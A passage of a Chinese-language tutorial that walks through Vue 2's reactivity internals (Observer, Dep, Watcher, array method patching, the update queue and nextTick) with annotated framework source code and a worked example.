if (newVal === value || (newVal !== newVal && value !== value)) {
return
}
/* eslint-enable no-self-compare */
if (process.env.NODE_ENV !== 'production' && customSetter) {
// customSetter 用来打印辅助信息
// initRender 中在定义 vm.$attrs 和 vm.$listeners 这两个属性的时候传递了这个参数
customSetter()
}
// setter 不存在说明该属性是一个只读属性，直接 return
// #7981: for accessor properties without setter
if (getter && !setter) return
// 设置新值
if (setter) {
setter.call(obj, newVal)
} else {
val = newVal
}
// 需要深度监测的时候，对新值进行观察，让新值也是响应式的，并且覆盖 childOb 为新的 __ob__ 对象
childOb = !shallow && observe(newVal)
// 当响应式数据更新时，依赖通知更新
dep.notify()
}
})
}
处理之后，每个对象都会有一个 __ob__ 属性，也就是 Observer 实例
const data = {
a: {
b: 1
}
}
observe(data)
// 经过处理后变成如下数据：
const data = {
a: {
b: 1
__ob__: {a, dep, vmCount}
}
__ob__: {data, dep, vmCount}
}
Dep
Dep 类用于收集依赖。当响应式数据的 getter 被触发的时候，Dep 会将 watcher 实例收集到 dep.subs 数组中。
以下是源码 src\core\observer\dep.js
点击查看代码
/**
* 一个 dep 对应一个 obj.key
* 在读取响应式数据时，负责收集依赖，每个 dep（或者说 data.key）依赖的 watcher 有哪些
* 在响应式数据更新时，负责通知 dep 中那些 watcher 去执行 update 方法
*/
export default class Dep {
static target: ?Watcher;
id: number;
subs: Array<Watcher>;
constructor () {
this.id = uid++
this.subs = []
}
// 在 dep 中添加 watcher
addSub (sub: Watcher) {
this.subs.push(sub)
}
removeSub (sub: Watcher) {
remove(this.subs, sub)
}
// 向 watcher 中添加 dep
depend () {
if (Dep.target) {
Dep.target.addDep(this)
}
}
/**
* 通知 dep 中的所有 watcher，执行 watcher.update() 方法
*/
notify () {
// stabilize the subscriber list first
const subs = this.subs.slice()
if (process.env.NODE_ENV !== 'production' && !config.async) {
// subs aren't sorted in scheduler if not running async
// we need to sort them now to make sure they fire in correct
// order
subs.sort((a, b) => a.id - b.id) // 升序排列
}
// 遍历 dep 中存储的 watcher，执行 watcher.update()
for (let i = 0, l = subs.length; i < l; i++) {
subs[i].update()
}
}
}
// The current target watcher being evaluated.
// This is globally unique because only one watcher
// can be evaluated at a time.
/**
* 当前正在执行的 watcher，同一时间只会有一个 watcher 在执行
* Dep.target = 当前正在执行的 watcher
* 通过调用 pushTarget 方法完成赋值，调用 popTarget 方法完成重置（null)
*/
Dep.target = null
const targetStack = []
// 在需要进行依赖收集的时候调用，设置 Dep.target = watcher
export function pushTarget (target: ?Watcher) {
targetStack.push(target)
Dep.target = target
}
// 依赖收集结束调用，设置 Dep.target = null
export function popTarget () {
targetStack.pop()
Dep.target = targetStack[targetStack.length - 1]
}
对象的每个属性都会有一个 Dep 实例的属性，也就是一个 key 一个 dep：
const data = {
a: {
b: 1
}
}
observe(data)
// 经过处理后变成如下数据：
const data = {
a: { // a 属性通过闭包引用着一个 dep
b: 1 // b 属性通过闭包引用着一个 dep
}
}
Watcher
依赖收集以后的 watcher 被保存在 dep.subs 中，数据变动的时候 dep 会通知 watcher 实例，然后触发 watcher 实例的回调 cb 进行视图更新。
src\core\observer\watcher.js
点击查看代码
/**
* 一个组件一个 watcher（渲染 watcher）或者一个表达式一个 watcher（用户watcher）
* 当数据更新时 watcher 会被触发，访问 this.computedProperty 时也会触发 watcher
*/
export default class Watcher {
vm: Component;
expression: string;
cb: Function;
id: number;
deep: boolean;
user: boolean;
lazy: boolean;
sync: boolean;
dirty: boolean;
active: boolean;
deps: Array<Dep>;
newDeps: Array<Dep>;
depIds: SimpleSet;
newDepIds: SimpleSet;
before: ?Function;
getter: Function;
value: any;
constructor (
vm: Component,
expOrFn: string | Function,
cb: Function,
options?: ?Object,
isRenderWatcher?: boolean
) {
this.vm = vm
if (isRenderWatcher) {
vm._watcher = this
}
vm._watchers.push(this)
// options
if (options) {
this.deep = !!options.deep
this.user = !!options.user
this.lazy = !!options.lazy
this.sync = !!options.sync
this.before = options.before
} else {
this.deep = this.user = this.lazy = this.sync = false
}
this.cb = cb
this.id = ++uid // uid for batching
this.active = true
this.dirty = this.lazy // for lazy watchers
this.deps = []
this.newDeps = []
this.depIds = new Set()
this.newDepIds = new Set()
this.expression = process.env.NODE_ENV !== 'production'
? expOrFn.toString()
: ''
// parse expression for getter
if (typeof expOrFn === 'function') {
this.getter = expOrFn
} else {
// this.getter = function() { return this.xx }
// 在 this.get 中执行 this.getter 时会触发依赖收集
// 待后续 this.xx 更新时就会触发响应式
this.getter = parsePath(expOrFn)
if (!this.getter) {
this.getter = noop
process.env.NODE_ENV !== 'production' && warn(
`Failed watching path: "${expOrFn}" ` +
'Watcher only accepts simple dot-delimited paths. ' +
'For full control, use a function instead.',
vm
)
}
}
this.value = this.lazy
? undefined
: this.get()
}
/**
* Evaluate the getter, and re-collect dependencies.
*/
/**
* 执行 this.getter，并重新收集依赖
* this.getter 是实例化 watcher 时传递的第二个参数，一个函数或者字符串，比如：updateComponent 或者 parsePath 返回的读取 this.xx 属性值的函数
* 为什么要重新收集依赖？
* 因为触发更新说明有响应式数据被更新了，但是被更新的数据虽然已经经过 observe 观察了，但是却没有进行依赖收集，
* 所以，在更新页面时，会重新执行一次 render 函数，执行期间会触发读取操作，这时候进行依赖收集
*/
get () {
// 打开 Dep.target，Dep.target = this
pushTarget(this)
// value 为回调函数执行的结果
let value
const vm = this.vm
try {
// 执行回调函数，比如 渲染watcher 执行 updateComponent，进入 patch 阶段
// 渲染 watcher 这里调用的是 vm._update(vm._render(), hydrating)
// computed watcher 这里调用的是用户定义的 computed key 对应的函数
value = this.getter.call(vm, vm)
} catch (e) {
if (this.user) {
handleError(e, vm, `getter for watcher "${this.expression}"`)
} else {
throw e
}
} finally {
// "touch" every property so they are all tracked as
// dependencies for deep watching
if (this.deep) {
traverse(value)
}
// 关闭 Dep.target，Dep.target = null
popTarget()
this.cleanupDeps()
}
return value
}
/**
* Add a dependency to this directive.
*/
/**
* Add a dependency to this directive.
* 两件事：
* 1、添加 dep 给自己（watcher）
* 2、添加自己（watcher）到 dep
*/
addDep (dep: Dep) {
// 判重，如果 dep 已经存在则不重复添加
const id = dep.id
if (!this.newDepIds.has(id)) {
// 缓存 dep.id，用于判重
this.newDepIds.add(id)
// 添加 dep
this.newDeps.push(dep)
// 避免在 dep 中重复添加 watcher，this.depIds 的设置在 cleanupDeps 方法中
if (!this.depIds.has(id)) {
// 添加 watcher 自己到 dep
dep.addSub(this)
}
}
}
/**
* Clean up for dependency collection.
*/
cleanupDeps () { // 移除不需要的 deps 订阅
let i = this.deps.length
while (i--) {
const dep = this.deps[i]
if (!this.newDepIds.has(dep.id)) {
dep.removeSub(this)
}
}
let tmp = this.depIds
this.depIds = this.newDepIds
this.newDepIds = tmp
this.newDepIds.clear()
tmp = this.deps
this.deps = this.newDeps
this.newDeps = tmp
this.newDeps.length = 0
}
/**
* Subscriber interface.
* Will be called when a dependency changes.
*/
/**
* 根据 watcher 配置项，决定接下来怎么走，一般是 queueWatcher
*/
update () {
/* istanbul ignore else */
if (this.lazy) {
// 懒执行时走这里，比如 computed
this.dirty = true
// 将 dirty 置为 true，可以让 computedGetter 执行时重新计算 computed 回调函数的执行结果
// dirty 设置为 true 后，当组件更新完毕，computedKey 响应式数据再次被获取时，触发 computed getter，重新执行 computed 回调函数，计算新值，缓存到 computed watcher.value
} else if (this.sync) {
// 同步执行，在使用 vm.$watch 或者 watch 选项时可以传一个 sync 选项，比如 { sync: true }
// 当为 true 时在数据更新时该 watcher 就不走异步更新队列，直接执行 this.run
// 方法进行更新
// 这个属性在官方文档中没有出现
this.run()
} else {
// 更新时一般都这里，将 watcher 放入 watcher 队列
queueWatcher(this)
}
}
/**
* Scheduler job interface.
* Will be called by the scheduler.
*/
/**
* 由 刷新队列函数 flushSchedulerQueue 调用，完成如下几件事：
* 1、执行实例化 watcher 传递的第二个参数，updateComponent 或者 获取 this.xx 的一个函数(parsePath 返回的函数)
* 2、更新旧值为新值
* 3、执行实例化 watcher 时传递的第三个参数，比如用户 watcher 的回调函数
*/
run () {
if (this.active) {
// 调用 this.get 方法
const value = this.get()
if (
value !== this.value ||
// Deep watchers and watchers on Object/Arrays should fire even
// when the value is the same, because the value may
// have mutated.
isObject(value) ||
this.deep
) {
// set new value
// 更新旧值为新值
const oldValue = this.value
this.value = value
if (this.user) {
// 如果是用户 watcher，则执行用户传递的第三个参数 —— 回调函数，参数为 val 和 oldVal
try {
this.cb.call(this.vm, value, oldValue)
} catch (e) {
handleError(e, this.vm, `callback for watcher "${this.expression}"`)
}
} else {
// 渲染 watcher，this.cb = noop，一个空函数
this.cb.call(this.vm, value, oldValue)
}
}
}
}
/**
* Evaluate the value of the watcher.
* This only gets called for lazy watchers.
*/
/**
* 懒执行的 watcher 会调用该方法
* 比如：computed，在获取 vm.computedProperty 的值时会调用该方法
* 然后执行 this.get，即 watcher 的回调函数，得到返回值
* this.dirty 被置为 false，作用是页面在本次渲染中只会一次 computed.key 的回调函数，
* 这也是大家常说的 computed 和 methods 区别之一是 computed 有缓存的原理所在
* 而页面更新后会 this.dirty 会被重新置为 true，这一步是在 this.update 方法中完成的
*/
evaluate () {
this.value = this.get()
this.dirty = false
}
/**
* Depend on all deps collected by this watcher.
*/
depend () {
let i = this.deps.length
while (i--) {
this.deps[i].depend()
}
}
/**
* Remove self from all dependencies' subscriber list.
*/
teardown () {
if (this.active) {
// remove self from vm's watcher list
// this is a somewhat expensive operation so we skip it
// if the vm is being destroyed.
if (!this.vm._isBeingDestroyed) {
remove(this.vm._watchers, this)
}
let i = this.deps.length
while (i--) {
this.deps[i].removeSub(this)
}
this.active = false
}
}
}
总结
分析下面这个例子
<div id="demo">
<p>{{obj.foo}}</p>
<div v-for="a in arr" :key="a">
{{ a }}
</div>
</div>
<script>
const app = new Vue({
el: '#demo',
data: {
obj: {
foo: 'foo'
},
arr: ['foo', 'bar']
},
mounted() {
setTimeout(() => {
this.obj.foo = 'fooooo'
}, 1000);
setTimeout(() => {
this.arr.push('baz')
}, 2000);
}
});
</script>
-
new Vue 后执行初始化流程，Vue.prototype._init（
src\core\instance\init.js）中会执行这一句：Vue.prototype._init = function () { initState(vm) // 数据响应式的重点，处理 props、methods、data、computed、watch } -
initState（
src\core\instance\state.js）中会执行 initData(vm) 来处理 data -
initData 做了三件事：
- 判重处理，data 对象上的属性不能和 props、methods 对象上的属性相同；
- 代理 data 对象上的属性到 vm 实例；
- 为 data 对象的上数据设置响应式
/** * 做了三件事 * 1、判重处理，data 对象上的属性不能和 props、methods 对象上的属性相同 * 2、代理 data 对象上的属性到 vm 实例 * 3、为 data 对象的上数据设置响应式 */ function initData (vm: Component) { let data = vm.$options.data // 保证后续处理的 data 是一个对象 // 如果 data 是个函数，就调用它获取到定义的属性 // 如果 data 的值是用 props 初始化的，所以 getData 里调用了 pushTarget() 和 popTarget() 防止收集冗余的依赖 data = vm._data = typeof data === 'function' ? getData(data, vm) : data || {} if (!isPlainObject(data)) { // 如果 data 是个对象就报一个警告 data = {} process.env.NODE_ENV !== 'production' && warn( 'data functions should return an object:\n' + 'https://vuejs.org/v2/guide/components.html#data-Must-Be-a-Function', vm ) } /** * 两件事 * 1、判重处理，data 对象上的属性不能和 props、methods 对象上的属性相同 * 2、代理 data 对象上的属性到 vm 实例 */ /** * 根据 vm.$options.data 选项获取真正想要的数据（注意：此时 vm.$options.data 是函数） 校验得到的数据是否是一个纯对象 检查数据对象 data 上的键是否与 props 对象上的键冲突 检查 methods 对象上的键是否与 data 对象上的键冲突 在 Vue 实例对象上添加代理访问数据对象的同名属性 最后调用 observe 函数开启响应式之路 */ // 因为 data props methods 都可以通过 vm 代理直接访问，所以它们需要判重处理 // proxy data on instance const keys = Object.keys(data) const props = vm.$options.props const methods = vm.$options.methods let i = keys.length while (i--) { // 判重处理，data 中的属性不能和 props 和 methods 中的属性重复 const key = keys[i] if (process.env.NODE_ENV !== 'production') { if (methods && hasOwn(methods, key)) { warn( `Method "${key}" has already been defined as a data property.`, vm ) } } if (props && hasOwn(props, key)) { process.env.NODE_ENV !== 'production' && warn( `The data property "${key}" is already declared as a prop. ` + `Use prop default value instead.`, vm ) } else if (!isReserved(key)) { // 代理 data 中的属性到 vm._data 上，例如 vm.a 其实访问的是 vm._data.a proxy(vm, `_data`, key) } } // observe data // 为 data 对象上的数据设置响应式 observe(data, true /* asRootData */) } -
initData 最后调用了 observe（
src\core\observer\index.js）。observe 为数据对象创建 Observer 实例/** * 响应式处理的真正入口 * 为对象创建观察者实例，如果对象已经被观察过，则返回已有的观察者实例，否则创建新的观察者实例 * @param {*} value 对象 => {} * @param asRootData 是否是根上的数据，所谓的根数据对象就是 data 对象 */ export function observe (value: any, asRootData: ?boolean): Observer | void { if (!isObject(value) || value instanceof VNode) { // 非对象和 VNode 实例不做响应式处理 return } let ob: Observer | void // 如果 value 对象上存在 __ob__ 属性，则表示已经做过观察了，直接返回 __ob__ 属性 if (hasOwn(value, '__ob__') && value.__ob__ instanceof Observer) { ob = value.__ob__ } else if ( shouldObserve && !isServerRendering() && (Array.isArray(value) || isPlainObject(value)) && Object.isExtensible(value) && !value._isVue ) { // 这些条件都满足的情况下才会创建 Observer 实例 // shouldObserve 开关打开 // !isServerRendering() 不是服务端渲染 // (Array.isArray(value) || isPlainObject(value)) value 是对象或者数组 // Object.isExtensible(value) value 必须是可扩展的。三个方法都可以使得一个对象变得不可扩展：Object.preventExtensions()、Object.freeze() 以及 Object.seal() // !value._isVue value不是 vue 实例 // 创建观察者实例 ob = new Observer(value) } if (asRootData && ob) { ob.vmCount++ } return ob } -
Observer (
src\core\observer\index.js) 会分别对对象和数组做处理，并且递归地调用 oberve 对深层的对象或数组做处理。/** * const data = { a: 1 } 这样的对象被 Observer 处理后，变成如下 const data = { a: 1, // __ob__ 是不可枚举的属性 __ob__: { value: data, // value 属性指向 data 数据对象本身，这是一个循环引用 dep: dep实例对象, // new Dep() vmCount: 0 } } */ export class Observer { value: any; dep: Dep; vmCount: number; // number of vms that have this object as root $data constructor (value: any) { this.value = value // 这个 dep 负责对象变更通知，新增或删除属性，也就是 $set 和 $delete 之后手动调用 ob.dep.notify() this.dep = new Dep() this.vmCount = 0 // 在 value 对象上设置 __ob__ 属性，enumerable 为 false，保证这个私有属性不会被 this.walk 遍历到 def(value, '__ob__', this) if (Array.isArray(value)) { /** * value 为数组 * hasProto = '__proto__' in {} * 用于判断对象是否存在 __proto__ 属性，通过 obj.__proto__ 可以访问对象的原型链 * 但由于 __proto__ 不是标准属性，所以有些浏览器不支持，比如 IE6-10，Opera10.1 * 为什么要判断，是因为一会儿要通过 __proto__ 操作数据的原型链 * 覆盖数组默认的七个原型方法，以实现数组响应式 */ if (hasProto) { protoAugment(value, arrayMethods) } else { copyAugment(value, arrayMethods, arrayKeys) } this.observeArray(value) } else { // value 为对象，调用 this.walk 为对象的每个属性（包括嵌套对象）设置响应式 this.walk(value) } } /** * Walk through all properties and convert them into * getter/setters. This method should only be called when * value type is Object. */ /** * 遍历对象上的每个可枚举的 key，为每个 key 设置响应式 * 仅当值为对象时才会走这里 */ walk (obj: Object) { const keys = Object.keys(obj) for (let i = 0; i < keys.length; i++) { defineReactive(obj, keys[i]) } } /** * Observe a list of Array items. */ /** * 遍历数组，为数组的每一项设置观察，处理数组元素为对象的情况 */ observeArray (items: Array<any>) { for (let i = 0, l = items.length; i < l; i++) { observe(items[i]) } } } -
其中对于数组，会生成继承自 Array.prototype 的新原型，然后在新原型上添加增强后的 7 个可以改变原数组的变异方法（push pop shift unshift splice sort reverse），然后将数据的原型修改为这个新原型，这样对于这个数组来说，它的 7 个数组方法就被增强方法覆盖了。
下面是
src\core\observer\array.js// 复写增强数组原型方法，使其具有依赖通知更新的能力 // 数组 原型对象 const arrayProto = Array.prototype // 通过继承的方式创建新的 arrayMethods export const arrayMethods = Object.create(arrayProto) // 操作数组的七个方法，这七个方法可以改变数组自身 const methodsToPatch = [ 'push', 'pop', 'shift', 'unshift', 'splice', 'sort', 'reverse' ] /** * Intercept mutating methods and emit events */ /** * 拦截变异方法并触发事件 */ methodsToPatch.forEach(function (method) { // cache original method const original = arrayProto[method] // def 就是 Object.defineProperty，拦截 arrayMethods.method 的访问 def(arrayMethods, method, function mutator (...args) { // 先执行原生方法拿到结果，比如 push.apply(this, args) const result = original.apply(this, args) const ob = this.__ob__ let inserted // 如果 method 是以下三个之一 push unshift splice，说明是新插入了元素 switch (method) { case 'push': case 'unshift': inserted = args break case 'splice': inserted = args.slice(2) break } // 如果新增了元素，对新插入的元素做响应式处理 if (inserted) ob.observeArray(inserted) // notify change ob.dep.notify() // 手动触发更新 return result }) })下面是 protoAugment 和 copyAugment （
src\core\observer\index.js）// 用增强的数组原型方法覆盖默认的原型方法，之后再执行那七个改变数组自身的方法时就具有了依赖通知更新的能力，以达到数组响应式的目的 function protoAugment (target, src: Object) { /* eslint-disable no-proto */ target.__proto__ = src /* eslint-enable no-proto */ } /** * Augment a target Object or Array by defining * hidden properties. */ /* istanbul ignore next */ //将增强的数组方法直接用 Object.defineProperty定义到数组上 function copyAugment (target: Object, src: Object, keys: Array<string>) { for (let i = 0, l = keys.length; i < l; i++) { const key = keys[i] def(target, key, src[key]) } } -
对于对象，会调用 defineReactive （
src\core\observer\index.js） 针对对象的每一个属性设置 getter 和 setter。/** * 拦截 obj[key] 的读取和设置操作： * 1、在第一次读取时收集依赖，比如执行 render 函数生成虚拟 DOM 时会有读取操作 * 2、在更新时设置新值并通知依赖更新 */ // shallow 参数，是否深度监测 export function defineReactive ( obj: Object, key: string, val: any, customSetter?: ?Function, shallow?: boolean ) { // 实例化 dep，一个 key 一个 dep const dep = new Dep() // 获取 obj[key] 的属性描述符，发现它是不可配置对象的话直接 return const property = Object.getOwnPropertyDescriptor(obj, key) if (property && property.configurable === false) { return } // cater for pre-defined getter/setters // 记录原始 getter 和 setter，获取 val 值 //一个对象的属性很可能已经是一个访问器属性了，所以该属性很可能已经存在 get 或 set 方法。由于接下来会使用 Object.defineProperty 函数重新定义属性的 setter/getter，这会导致属性原有的 set 和 get 方法被覆盖，所以要将属性原有的 setter/getter 缓存，并在重新定义的 set 和 get 方法中调用缓存的函数，从而做到不影响属性的原有读写操作。 const getter = property && property.get const setter = property && property.set // https://github.com/vuejs/vue/pull/7302 // 为什么要这样判断：(!getter || setter) // 因为有可能用户定义的 data 中的属性原本就是拥有 getter 的，如下： /** * const data = {} Object.defineProperty(data, 'getterProp', { enumerable: true, configurable: true, get: () => { return { a: 1 } } }) const ins = new Vue({ data, watch: { 'getterProp.a': () => { console.log('这句话不会输出') } } }) 属性 getterProp 是一个拥有 get 拦截器函数的访问器属性，而当 Vue 发现该属性拥有原本的 getter 时，是不会深度观测的。 那么为什么当属性拥有自己的 getter 时就不会对其深度观测了呢？有两方面的原因， 第一：由于当属性存在原本的 getter 时在深度观测之前不会取值，所以在深度观测语句执行之前取不到属性值从而无法深度观测。 第二：之所以在深度观测之前不取值是因为属性原本的 getter 由用户定义，用户可能在 getter 中做任何意想不到的事情，这么做是出于避免引发不可预见行为的考虑。 */ if ((!getter || setter) && arguments.length === 2) { val = obj[key] } // 递归调用，处理 val 即 obj[key] 的值为对象的情况，保证对象中的所有 key 都被观察 let childOb = !shallow && observe(val) /** * const data = { a: { b: 1 } } observe(data) 经过处理后变成如下数据： const data = { a: { b: 1 __ob__: {a, dep, vmCount} } __ob__: {data, dep, vmCount} } // 属性 a 通过 setter/getter 通过闭包引用着 dep 和 childOb // 属性 b 通过 setter/getter 通过闭包引用着 dep 和 childOb // 这里需要注意 a 通过闭包引用的 childOb 就是 data.a.__ob__ // 而 b 通过闭包引用的 childOb 是 undefined */ // 响应式核心 Object.defineProperty(obj, key, { enumerable: true, configurable: true, // get 拦截对 obj[key] 的读取操作，做两件事：1.返回正确的属性值，2.收集依赖 get: function reactiveGetter () { // 正确地返回属性值 const value = getter ? getter.call(obj) : val /** * Dep.target 为 Dep 类的一个静态属性，值为 watcher，在实例化 Watcher 时会被设置 * 实例化 Watcher 时会执行 new Watcher 时传递的回调函数（computed 除外，因为它懒执行） * 而回调函数中如果有 vm.key 的读取行为，则会触发这里的 读取 拦截，进行依赖收集 * 回调函数执行完以后又会将 Dep.target 设置为 null，避免这里重复收集依赖 */ if (Dep.target) { // 依赖收集，在 dep 中添加 watcher，也在 watcher 中添加 dep dep.depend() // 对于上面举的例子，对于属性 a 来说，childOb 就是 data.a.__ob__ // 所以 childOb.dep 就是 data.a.__ob__.dep // 也就是说依赖不仅要收集到 a 自己的 dep 里，也要收集到 a.__ob__.dep 里 // 这样做的原因是因为 a.dep 和 a.__ob__.dep 里的依赖，触发更新的时机是不同的 // 第一个触发的时机就是当 a 属性的值被改变的时候，即触发 a 的 setter 的 dep.notify() // 而第二个触发的时机是 $set 或 Vue.set 给对象添加新属性时触发 /** * Vue.set(data.a, 'c', 1) * 这样设置新的属性 c 后，之所以可以触发更新，是因为其中触发了 data.a.__ob__.dep.notify()，Vue.set 代码简化后如下： * * Vue.set = function (obj, key, val) { defineReactive(obj, key, val) obj.__ob__.dep.notify() } 所以 __ob__ 属性以及 __ob__.dep 的主要作用是为了添加、删除属性时有能力触发依赖更新，而这就是 Vue.set 或 Vue.delete 的原理。 */ if (childOb) { childOb.dep.depend() // 如果是 obj[key] 是 数组，则触发数组响应式 if (Array.isArray(value)) { // 为数组项为对象的项添加依赖 dependArray(value) } } } return value }, // set 拦截对 obj[key] 的设置新值的操作，做了两件事：1.设置新值，2.触发依赖更新 set: function reactiveSetter (newVal) { // 旧的 obj[key] const value = getter ? getter.call(obj) : val /* eslint-disable no-self-compare */ // 如果新老值一样，则直接 return，不触发响应式更新过程（判断了新老值都是 NaN 的情况） if (newVal === value || (newVal !== newVal && value !== value)) { return } /* eslint-enable no-self-compare */ if (process.env.NODE_ENV !== 'production' && customSetter) { // customSetter 用来打印辅助信息 // initRender 中在定义 vm.$attrs 和 vm.$listeners 这两个属性的时候传递了这个参数 customSetter() } // setter 不存在说明该属性是一个只读属性，直接 return // #7981: for accessor properties without setter if (getter && !setter) return // 设置新值 if (setter) { setter.call(obj, newVal) } else { val = newVal } // 需要深度监测的时候，对新值进行观察，让新值也是响应式的，并且覆盖 childOb 为新的 __ob__ 对象 childOb = !shallow && observe(newVal) // 当响应式数据更新时，依赖通知更新 dep.notify() } }) } -
将 data 中数据变成响应式的到这里就处理结束了。接下来是依赖收集的过程。组件初始化结束后，会执行 $mount 挂载流程。其中会调用 调用 mountComponent （
src\core\instance\lifecycle.js）。mountComponent 中对当前组件新建一个对应的渲染 watcher，传入 updateComponent 方法作为参数// 此处只给出关键代码 function mountComponent() { updateComponent = function () { vm._update(vm._render(), hydrating); }; new Watcher(vm, updateComponent, noop, { before: function before () { if (vm._isMounted && !vm._isDestroyed) { callHook(vm, 'beforeUpdate'); } } }, true /* isRenderWatcher */); } -
new Wacher() 初始化 watcher 实例的时候，首先会将 Dep.target 设置为当前渲染 watcher 以便于后续收集依赖的时候能够找到当前 watcher 引用，然后会调用刚才传入的 updateComponent，于是会先执行 vm._render() 去生成 vnode。下面是当前组件的 render 函数：
ƒ anonymous( ) { with(this){return _c('div',{attrs:{"id":"demo"}},[_c('p',[_v(_s(obj.foo))]),_v(" "),_l((arr),function(a){return _c('div',{key:a},[_v("\n "+_s(a)+"\n ")])})],2)} }render 函数调用的时候就会触发 data 中数据的 getter。
-
数据的 getter 触发后，收集依赖，dep 会加入到 watcher 的 newDeps 数组中，watcher 会加入到 dep.subs 数组中。
// getter { get: function () { dep.depend() } } // depend depend () { if (Dep.target) { Dep.target.addDep(this) } } // addDep addDep (dep: Dep) { // 判重，如果 dep 已经存在则不重复添加 const id = dep.id if (!this.newDepIds.has(id)) { // 缓存 dep.id，用于判重 this.newDepIds.add(id) // 添加 dep this.newDeps.push(dep) // 避免在 dep 中重复添加 watcher，this.depIds 的设置在 cleanupDeps 方法中 if (!this.depIds.has(id)) { // 添加 watcher 自己到 dep dep.addSub(this) } } }这样依赖收集就结束了
-
接着是触发更新的操作。如果数组调用了 7 个变异方法，或者对象改变了某一个已存在属性的值，那么都会调用这一句：
dep.notify()会通过每个属性的 dep 的 subs 数组找到数据会影响的 watcher ，然后调用 watcher.update 方法，watcher.updata 会调用 queueWatcher
// dep.notify() notify () { // stabilize the subscriber list first const subs = this.subs.slice() if (process.env.NODE_ENV !== 'production' && !config.async) { // subs aren't sorted in scheduler if not running async // we need to sort them now to make sure they fire in correct // order subs.sort((a, b) => a.id - b.id) // 升序排列 } // 遍历 dep 中存储的 watcher，执行 watcher.update() for (let i = 0, l = subs.length; i < l; i++) { subs[i].update() } } // watcher.update() update () { /* istanbul ignore else */ if (this.lazy) { // 懒执行时走这里，比如 computed this.dirty = true // 将 dirty 置为 true，可以让 computedGetter 执行时重新计算 computed 回调函数的执行结果 // dirty 设置为 true 后，当组件更新完毕，computedKey 响应式数据再次被获取时，触发 computed getter，重新执行 computed 回调函数，计算新值，缓存到 computed watcher.value } else if (this.sync) { // 同步执行，在使用 vm.$watch 或者 watch 选项时可以传一个 sync 选项，比如 { sync: true } // 当为 true 时在数据更新时该 watcher 就不走异步更新队列，直接执行 this.run // 方法进行更新 // 这个属性在官方文档中没有出现 this.run() } else { // 更新时一般都这里，将 watcher 放入 watcher 队列 queueWatcher(this) } } -
queueWatcher （
src\core\observer\scheduler.js） 将维护一个存放 watcher 的队列，然后定义了一个 flushSchedulerQueue 函数，flushSchedulerQueue 用于清空 watcher 队列，依次调用 watcher.run 去更新。然后将 flushSchedulerQueue 传递给 nextTick 方法，让其在本轮事件循环结束之前被调用（微任务）/** * 将 watcher 放入 watcher 队列 */ export function queueWatcher (watcher: Watcher) { const id = watcher.id // 如果 watcher 已经存在，则跳过，不会重复入队 if (has[id] == null) { // 缓存 watcher.id，用于判断 watcher 是否已经入队 has[id] = true // 如果 flushing = false，表示当前 watcher 队列没有被刷新，watcher 直接入队 if (!flushing) { queue.push(watcher) } else { // watcher 队列已经被刷新了，这时候 watcher 入队就需要特殊操作一下 // 从队列末尾开始倒序遍历，根据当前 watcher.id 找到它大于的 watcher.id 的位置，然后将自己插入到该位置之后的下一个位置 // 即将当前 watcher 放入已排序的队列中，且队列仍是有序的 // if already flushing, splice the watcher based on its id // if already past its id, it will be run next immediately. let i = queue.length - 1 while (i > index && queue[i].id > watcher.id) { i-- } queue.splice(i + 1, 0, watcher) } // queue the flush if (!waiting) { // waiting 为 false 时，表示当前浏览器异步任务队列中没有 flushSchedulerQueue 函数 waiting = true if (process.env.NODE_ENV !== 'production' && !config.async) { // 同步执行，直接刷新调度队列 // 一般不会走这儿，Vue 默认是异步执行，如果改为同步执行，性能会大打折扣 flushSchedulerQueue() return } /** * 熟悉的 nextTick => vm.$nextTick、Vue.nextTick * 1、将 回调函数（flushSchedulerQueue） 放入 callbacks 数组 * 2、通过 pending 控制向浏览器任务队列中添加 flushCallbacks 函数 */ nextTick(flushSchedulerQueue) } } } -
nextTick（
src\core\util\next-tick.js）将 flushSchedulerQueue 用 try catch 包装后加入 callbacks，然后使用 promise 启动一个微任务，将 flushCallbacks 函数放入微任务中，flushCallbacks 在本轮循环结束之前被调用，会去遍历 callbacks 数组，然后调用其中函数，也就是 flushSchedulerQueue 被调用，每一个 watcher.run 被触发，然后重新执行 updateComponent，重新生成 vnode 然后走 patch 流程function flushCallbacks () { pending = false const copies = callbacks.slice(0) callbacks.length = 0 // 遍历 callbacks 数组，执行其中存储的每个 flushSchedulerQueue 函数 for (let i = 0; i < copies.length; i++) { copies[i]() } } /** * 完成两件事： * 1、用 try catch 包装 flushSchedulerQueue 函数，然后将其放入 callbacks 数组 * 2、如果 pending 为 false，表示现在浏览器的任务队列中没有 flushCallbacks 函数 * 如果 pending 为 true，则表示浏览器的任务队列中已经被放入了 flushCallbacks 函数， * 待执行 flushCallbacks 函数时，pending 会被再次置为 false，表示下一个 flushCallbacks 函数可以进入 * 浏览器的任务队列了 * pending 的作用：保证在同一时刻，浏览器的任务队列中只有一个 flushCallbacks 函数 * @param {*} cb 接收一个回调函数 => flushSchedulerQueue * @param {*} ctx 上下文 * @returns */ // Vue.nextTick(function () { xxx }) export function nextTick (cb?: Function, ctx?: Object) { let _resolve // 将传入 nextTick 的回调函数用 try catch 包装一层，方便异常捕获 // 然后将包装后的函数放到 callbacks 数组里 callbacks.push(() => { if (cb) { try { cb.call(ctx) } catch (e) { handleError(e, ctx, 'nextTick') } } else if (_resolve) { // 如果 cb 不是函数，说明是 nextTick().then(() => {}) 的调用形式，调用 _resolve 触发之后的 then 执行 _resolve(ctx) } }) // pending 为 false，执行 timerFunc // 在浏览器的任务队列中（首选微任务队列）放入 flushCallbacks 函数 if (!pending) { pending = true timerFunc() } // $flow-disable-line if (!cb && typeof Promise !== 'undefined') { // 没有 cb 生成 promise 存下 resolve 供给 callbacks 中的回调去触发 then 执行 return new Promise(resolve => { _resolve = resolve }) } }
nextTick 的作用和原理
- nextTick 是 vue 提供的一个全局 API，由于 vue 的异步更新策略导致我们对数据的修改不会立刻体现在 dom 变化上，此时如果想要立即获取更新后的 dom 状态，就需要使用这个方法。
- vue 在更新 dom 的时候是异步执行的。只要监测到数据变化，vue 将开启一个队列，并缓冲在同一事件循环中发生的所有数据变更。如果同一个 watcher 被多次触发，只会被推入到队列中一次。这种在缓冲时去除重复数据对于避免不必要的计算和 dom 操作是非常重要的。nextTick 方法会在队列中加入一个回调函数，确保函数在前面的 dom 操作完后才调用。
- 所以当我们想在修改数据后立刻看到 dom 执行结果就需要使用 nextTick
